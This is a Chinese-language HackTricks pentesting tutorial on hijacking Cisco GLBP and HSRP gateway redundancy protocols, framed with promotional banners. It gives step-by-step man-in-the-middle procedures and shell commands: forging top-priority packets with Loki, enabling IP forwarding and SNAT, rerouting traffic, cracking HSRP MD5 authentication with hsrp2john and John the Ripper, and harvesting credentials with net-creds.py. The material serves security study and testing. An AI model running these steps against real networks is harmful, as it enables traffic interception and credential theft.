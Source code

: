 # GLBP & HSRP 攻击

<details>

<summary><strong>从零到英雄学习 AWS 黑客攻击，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享你的黑客技巧。

</details>


## FHRP 劫持概述

### 理解 FHRP
First Hop Redundancy Protocol (FHRP) 是一套确保网络弹性的协议，通过将多个物理路由器组合成一个虚拟实体来实现。这增强了负载分配和容错能力。Cisco Systems 引入了两个值得注意的 FHRP 协议：GLBP 和 HSRP。

### GLBP 协议详情
由 Cisco 开发的 GLBP (Gateway Load Balancing Protocol) 在 TCP/IP 堆栈之上运行，使用 UDP 端口 3222 进行通信。GLBP 组内的路由器每 3 秒发送一次 "hello" 数据包。如果 10 秒内没有收到某个路由器的这些数据包，则表明它已经失效。然而，这些计时器设置是可调的。

### GLBP 操作和负载均衡
GLBP 通过使用单个虚拟 IP 和多个虚拟 MAC 地址实现了多个路由器之间的负载共享。组内的每个路由器都参与数据包的转发。GLBP 与 HSRP/VRRP 的不同之处在于它提供了真正的负载均衡，包括：

- **主机依赖：** 确保主机接收到相同的 AVF MAC 地址，保留 NAT 配置。
- **轮询：** 默认模式，AVF MAC 地址交替分配。
- **基于权重的轮询：** 根据预定义的 "权重" 指标平衡负载。

### GLBP 领域角色和术语
- **AVG (Active Virtual Gateway)：** 主路由器，向其他路由器分配 MAC 地址。
- **AVF (Active Virtual Forwarder)：** 处理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG，缺省值为 100，范围从 1 到 255。
- **GLBP 权重：** 表示路由器的负载水平，可以手动调整或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 作为连接设备的默认网关。

GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222 进行通信。每 3 秒发送一次 "hello" 数据包，如果 10 秒内没有收到数据包，路由器就会被标记为 "死亡"。

### GLBP 攻击机制
攻击者可以通过发送具有最高优先级值 (255) 的 GLBP 数据包成为主路由器。这可能导致 DoS 或 MITM 攻击，允许流量截取或重定向。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重均设置为 255 的数据包来执行 GLBP 攻击。攻击前的步骤包括使用 Wireshark 等工具收集信息，如虚拟 IP 地址、认证存在与否以及路由器优先级值。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 识别目标路由器并检索其 IP。
3. 生成一个 Gratuitous ARP。
4. 注入恶意 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，反映 GLBP 虚拟 IP。
6. 实施 SNAT 以完全查看流量。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为 "中间人"，能够截取和分析网络流量，包括未加密或敏感数据。

为了演示，这里是所需的命令片段：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
监控和拦截流量可以使用 net-creds.py 或类似工具来捕获和分析通过受损网络流动的数据。

### HSRP 劫持的被动解释与命令详情

#### HSRP（热备用路由器/冗余协议）概述
HSRP 是 Cisco 专有协议，旨在为网络网关冗余设计。它允许将多个物理路由器配置为一个具有共享 IP 地址的单个逻辑单元。这个逻辑单元由负责指导流量的主路由器管理。与使用优先级和权重进行负载平衡的 GLBP 不同，HSRP 依赖单个活动路由器进行流量管理。

#### HSRP 中的角色和术语
- **HSRP 活动路由器**：作为网关的设备，管理流量流动。
- **HSRP 备用路由器**：备份路由器，如果活动路由器失败，准备接管。
- **HSRP 组**：一组协作的路由器，形成一个单一的弹性虚拟路由器。
- **HSRP MAC 地址**：在 HSRP 设置中分配给逻辑路由器的虚拟 MAC 地址。
- **HSRP 虚拟 IP 地址**：HSRP 组的虚拟 IP 地址，作为连接设备的默认网关。

#### HSRP 版本
HSRP 有两个版本，HSRPv1 和 HSRPv2，主要区别在于组容量、多播 IP 使用和虚拟 MAC 地址结构。该协议使用特定的多播 IP 地址进行服务信息交换，每 3 秒发送一次 Hello 数据包。如果在 10 秒间隔内未收到数据包，路由器被假定为不活动状态。

#### HSRP 攻击机制
HSRP 攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击（MITM）。攻击前的重要步骤包括收集有关 HSRP 设置的数据，可以使用 Wireshark 进行流量分析来完成。

#### 绕过 HSRP 认证的步骤
1. 将包含 HSRP 数据的网络流量保存为 .pcap 文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用 hsrp2john.py 从 .pcap 文件中提取 MD5 哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用 John the Ripper 破解 MD5 哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用 Loki 执行 HSRP 注入**

1. 启动 Loki 以识别 HSRP 广告。
2. 将网络接口设置为混杂模式并启用 IP 转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用 Loki 针对特定路由器，输入破解的 HSRP 密码，并执行必要的配置以冒充活动路由器。
4. 在获得活动路由器角色后，配置网络接口和 IP 表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表，通过前活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用 net-creds.py 或类似工具捕获从拦截流量中的凭证。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤使攻击者能够拦截和操纵流量，类似于 GLBP 劫持的程序。这突出了像 HSRP 这样的冗余协议的漏洞以及对强大安全措施的需求。


# 参考资料
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<details>

<summary><strong>从零到英雄学习 AWS 黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享你的黑客技巧。

</details>

